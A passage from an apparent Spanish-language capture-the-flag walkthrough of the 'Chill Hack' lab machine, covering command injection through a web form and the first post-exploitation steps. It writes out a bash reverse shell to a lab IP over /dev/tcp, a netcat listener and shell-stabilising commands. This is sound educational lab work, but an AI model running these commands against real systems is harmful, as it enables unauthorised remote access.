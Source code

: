 Una vez descargado el archivo, vamos a comprobar lo que hay en el documento.
![imagen_hacking_chill-hack_12note.png](/imagen_hacking_chill-hack_12note.png)
El documento nos dice que un usuario llamado *Anurodh*, ha creado un filtro de comandos, esto está firmado por otro usuario llamado *Apaar*.

Volvamos al HTTP e intentemos entrar, comenzando la fase de **Intrusión**
## Intrusión
Ahora nos queda intentar entrar en el equipo. Para ello se ha intentado varias formas, como puede ser:
1. Subir un archivo con un script que contemple "sh -i >& /dev/tcp/10.9.3.9/9000 0>&1" y se ejecute.
2. Intentar introducir caracteres especiales entre el comando.
3. Dirigirnos directamente a la ruta del ejecutable del comando.

Por lo tanto, dentro de la página web vamos a escribir:
```bash
/bin/bash -i >& /dev/tcp/10.9.3.9/9000 0>&1
```

Una vez escrito esto podemos observar como hemos entrado sin problema.
![imagen_hacking_chill-hack_13intrusion.png](/imagen_hacking_chill-hack_13intrusion.png)
> Recordad que debemos mantener una shell con "nc -lnvp 9000"
{.is-info}

Una vez tengamos acceso, podemos empezar a ejecutar comandos para intentar escalar privilegios.
## Escalada de privilegios y búsqueda de flags
### Usuario www-data
Como podemos observar, somos el usuario **www-data**, usuario creado para interpretar website, recomiendo echar un ojo a el **directorio** en el que estamos, ya que nos será más útil después.

Lo primero que haremos será securizar la shell, para ello vamos a poner los siguientes comandos:
```bash
python3 -c "import pty;pty.spawn('/bin/bash')"
```
Tras esto hacemos <kbd>CTRL</kbd> + <kbd>Z</kbd>.
Y escribimos los siguientes comandos:
```
stty raw -echo;
export TERM=xterm
```
